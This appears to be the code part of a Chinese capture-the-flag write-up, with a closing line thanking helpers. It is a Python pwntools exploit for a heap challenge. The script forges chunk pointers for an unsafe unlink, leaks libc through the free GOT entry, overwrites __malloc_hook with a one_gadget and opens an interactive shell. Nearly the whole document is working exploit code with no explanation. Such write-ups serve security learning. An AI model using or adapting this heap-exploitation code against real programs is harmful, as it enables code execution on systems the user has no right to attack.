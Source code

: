 ```python
fake_fd = bss+8-0x18
fake_bk = bss+8-0x10
fake_heap = p64(prev_size)+p64(size)+p64(fake_fd)+p64(fake_bk)
# gdb.attach(s,'b *0x00000000040092C')

add(0x100,fake_heap)

add(0x10,'0000')

add(0x100,'aaaa')

delete(2)
# raw_input(">")

fake_prev = 0x130
fake_size = 272
payload = 'A'*0x20+p64(fake_prev)+p64(fake_size)
add(0x10,payload)
delete(3)
# gdb.attach(s,'b *0x400A44')
padding = 'A'*0x10+'A'*8+p64(bss)+p64(free_got)+p64(0x602010)
edit(1,padding)
raw_input(">")
show()
s.recvuntil('[2] ')
free_real = s.recvn(8).ljust(8,'\x00')
free_real = u64(free_real)
print hex(free_real)
free_real = int(hex(free_real).replace('0x5b0a','0x'),16)
libc = LibcSearcher("free",free_real)
offset = free_real - libc.dump('free')
print hex(offset)
onegadget = 0xf1147+offset
edit(3,p64(0))

malloc_hook = libc.dump('__malloc_hook')+offset
payload = 'A'*8+p64(bss)+p64(malloc_hook)
edit(1,payload)
# gdb.attach(s,'b *0x400A44')
edit(2,p64(onegadget))
add(0x100,'aaaa')
s.interactive()


```



至此....结束…感谢师傅们的帮助